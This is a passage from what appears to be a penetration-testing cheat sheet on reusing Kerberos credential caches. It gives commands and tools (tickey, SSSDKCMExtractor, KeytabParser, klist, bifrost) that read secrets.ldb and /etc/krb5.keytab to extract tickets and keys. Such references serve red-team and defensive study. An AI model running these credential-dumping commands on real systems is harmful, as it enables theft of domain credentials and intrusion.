 Local Admin: Yes

OS: Linux

Type: Enumeration & Hunting

Methods:

-   https://github.com/TarlogicSecurity/tickey

-   /tmp/tickey -i

<a name="ccache-ticket-reuse-from-sssd-kcm"></a>
# CCACHE ticket reuse from SSSD KCM

Domain: Yes

Local Admin: Yes

OS: Linux

Type: Enumeration & Hunting

Methods:

-   git clone https://github.com/fireeye/SSSDKCMExtractor

-   python3 SSSDKCMExtractor.py \--database secrets.ldb \--key
    > secrets.mkey

<a name="ccache-ticket-reuse-from-keytab"></a>
# CCACHE ticket reuse from keytab

Domain: Yes

Local Admin: Yes

OS: Linux/Windows/Mac

Type: Enumeration & Hunting

Methods:

-   git clone https://github.com/its-a-feature/KeytabParser

-   python KeytabParser.py /etc/krb5.keytab

-   klist -k /etc/krb5.keytab

> Or

-   klist.exe -t -K -e -k FILE:C:\\Users\\User\\downloads\\krb5.keytab

-   python3 keytabextract.py krb5.keytab

-   ./bifrost -action dump -source keytab -path test

<a name="ssh-forwarder"></a>
# SSH Forwarder
